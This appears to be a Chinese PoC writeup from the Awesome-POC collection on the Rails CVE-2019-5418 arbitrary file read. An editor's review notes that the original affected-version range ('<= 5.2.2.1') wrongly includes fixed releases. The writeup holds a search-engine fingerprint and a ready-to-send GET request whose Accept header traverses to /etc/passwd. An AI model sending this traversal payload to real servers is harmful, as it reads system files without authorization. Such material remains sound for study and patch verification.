


## 核对与使用边界

- 明确更正：CVE-2019-5418 首修复按维护分支为 4.2.11.1、5.0.7.2、5.1.6.2、5.2.2.1、6.0.0.beta3；这些修复版本本身不能列为受影响。原多个“小于”范围应分别绑定分支，不能全局 OR。
- 触发需要相关 `render file:` 行为与恶意 Accept 的组合；任意 Rails URL 和读取文件原语都不自动证明代码执行。

核对来源：[Rails 官方安全发布](https://rubyonrails.org/2019/3/13/Rails-4-2-5-1-5-1-6-2-have-been-released)

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：Rail&lt;=5.2.2.1与355给&lt;5.2.2.1冲突，疑含已修复边界

代码与实验材料：Accept遍历GET与截图，缺render file应用代码/版本环境

来源证据范围：Awesome-POC无官方来源

- **事实待核（1）**：受影响版本包括疑似修复版本；依据：&lt;=5.2.2.1与同库355的&lt;范围矛盾，应查Rails公告。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

- **适用与权限边界（2）**：缺触发配置与修复矩阵；依据：需要具体render file行为，不能所有Rails页面均按/robots复现。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# Rails Accept 任意文件读取漏洞 CVE-2019-5418

## 漏洞描述

Ruby on Rails 是一个 Web 应用程序框架,是一个相对较新的 Web 应用程序框架，构建在 Ruby 语言之上。这个漏洞主要是由于 Ruby on Rails 使用了指定参数的 render file 来渲染应用之外的视图，我们可以通过修改访问某控制器的请求包，通过“…/…/…/…/”来达到路径穿越的目的，然后再通过“{{”来进行模板查询路径的闭合，使得所要访问的文件被当做外部模板来解析。

## 漏洞影响

```
Rail <= 5.2.2.1
```

## 网络测绘

```
title="Ruby On Rails"
```

## 漏洞复现

主页面



验证请求包

```
GET /robots HTTP/1.1
Host: 127.0.0.1:3000
Accept-Encoding: gzip, deflate
Accept: ../../../../../../../../etc/passwd{{
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
```




---

> 来源：Threekiii/Awesome-POC
